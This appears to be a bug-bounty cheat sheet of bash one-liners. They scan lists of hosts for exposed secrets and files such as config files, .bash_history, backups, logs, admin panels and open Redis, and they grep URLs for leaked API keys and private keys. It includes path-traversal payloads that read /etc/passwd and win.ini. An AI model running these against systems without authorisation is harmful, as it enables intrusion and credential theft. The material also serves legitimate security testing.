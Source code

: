 Find Publicly Exposed Config.json Files
```bash
cat subdomains.txt | httpx -silent -path /config.json -mc 200 -o config_json_exposed.txt
```

Identify Unauthenticated Redis Servers
```bash
cat ips.txt | naabu -p 6379 -silent -o open_redis.txt
```

Detect Exposed Private Keys in URLs
```bash
cat urls.txt | grep -Ei 'private_key|id_rsa|pem' > private_key_leaks.txt
```

Search for Open API Keys in URLs
```bash
cat urls.txt | grep -Ei 'apikey|api_key|token' > exposed_api_keys.txt
```

Detect Exposed .bash_history Files
```bash
cat subdomains.txt | httpx -silent -path /.bash_history -mc 200 -o bash_history_exposed.txt
```

Check for Open etc/passwd via LFI
```bash
cat urls.txt | qsreplace '../../../../../etc/passwd' | httpx -silent -fr 'root:x:' -o lfi_passwd.txt
```

Find Open Exposed Backup ZIP Files
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/backup.zip\n/site_backup.zip\n/db_backup.zip') -mc 200 -o backup_zip_exposed.txt
```

Detect Exposed Logs (server.log, error.log)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/server.log\n/error.log\n/application.log') -mc 200 -o exposed_logs.txt
```

Find Publicly Accessible Admin Panels (General)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/admin\n/administrator\n/admin/login\n/admin.php\n/adminer.php') -mc 200 -o open_admin_panels.txt
```

Detect Exposed YAML Config Files
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/config.yaml\n/application.yaml') -mc 200 -o exposed_yaml.txt
```

Check for Directory Traversal to Windows Files
```bash
cat urls.txt | qsreplace 'C:\Windows\win.ini' | httpx -silent -fr 'for 16-bit app support' -o windows_lfi.txt
```
